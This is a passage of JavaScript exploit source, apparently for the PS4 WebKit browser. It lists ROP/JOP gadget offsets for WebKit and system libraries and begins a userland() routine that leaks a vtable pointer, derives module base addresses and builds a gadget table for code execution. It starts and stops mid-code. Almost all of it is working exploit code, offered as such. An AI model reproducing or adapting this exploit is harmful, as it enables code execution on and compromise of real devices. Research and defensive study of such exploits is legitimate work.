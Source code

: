             "mov [rdi], rsi": 0x1A97920,
            "mov [rdi], rax": 0x10788F7,
            "mov [rdi], eax": 0x9964BC,    
            "cli ; pop rax": 0x566F8,
            "sti": 0x1FBBCC,    
            "mov rax, [rax]": 0x241CC,
            "mov rax, [rsi]": 0x5106A0,
            "mov [rax], rsi": 0x1EFD890,
            "mov [rax], rdx": 0x1426A82,
            "mov [rax], edx": 0x3B7FE4,
            "add rax, rsi": 0x170397E,
            "mov rdx, rax": 0x53F501,
            "add rax, rcx": 0x2FBCD,
            "mov rsp, rdi": 0x2048062,
            "mov rdi, [rax + 8] ; call [rax]": 0x751EE7,
            "infloop": 0x7DFF,    
            "mov [rax], cl": 0xC6EAF,
        };    
        var wkr_gadgetmap = {
            "xchg rdi, rsp ; call [rsi - 0x79]": 0x1d74f0 //JOP 3
        };    
        var wk2_gadgetmap = {
            "mov [rax], rdi": 0xFFDD7,
            "mov [rax], rcx": 0x2C9ECA,
            "mov [rax], cx": 0x15A7D52,
        };
        var hmd_gadgetmap = {
            "add [r8], r12": 0x2BCE1
        };
        var ipmi_gadgetmap = {
            "mov rcx, [rdi] ; mov rsi, rax ; call [rcx + 0x30]": 0x344B
        };    
        function userland() {    
            //RW -> ROP method is strongly based off of:
            //https://github.com/Cryptogenic/PS4-6.20-WebKit-Code-Execution-Exploit    
            p.launch_chain = launch_chain;
            p.malloc = malloc;
            p.malloc32 = malloc32;
            p.stringify = stringify;
            p.array_from_address = array_from_address;
            p.readstr = readstr;    
            //pointer to vtable address
            var textAreaVtPtr = p.read8(p.leakval(textArea).add32(0x18));
            //address of vtable
            var textAreaVtable = p.read8(textAreaVtPtr);
            //use address of 1st entry (in .text) to calculate webkitbase
            webKitBase = p.read8(textAreaVtable).sub32(OFFSET_wk_vtable_first_element);    
            libSceLibcInternalBase = p.read8(get_jmptgt(webKitBase.add32(OFFSET_WK_memset_import)));
            libSceLibcInternalBase.sub32inplace(OFFSET_libcint_memset);    
            libKernelBase = p.read8(get_jmptgt(webKitBase.add32(OFFSET_WK___stack_chk_fail_import)));
            libKernelBase.sub32inplace(OFFSET_lk___stack_chk_fail);    
            webKitRequirementBase = p.read8(get_jmptgt(webKitBase.add32(OFFSET_WK_psl_builtin_import)));
            webKitRequirementBase.sub32inplace(OFFSET_WKR_psl_builtin);    
            for (var gadget in wk_gadgetmap) {
                window.gadgets[gadget] = webKitBase.add32(wk_gadgetmap[gadget]);
            }
            for (var gadget in wkr_gadgetmap) {
                window.gadgets[gadget] = webKitRequirementBase.add32(wkr_gadgetmap[gadget]);
            }    
            function get_jmptgt(address) {
                var instr = p.read4(address) & 0xFFFF;
                var offset = p.read4(address.add32(2));
                if (instr != 0x25FF) {
                    return 0;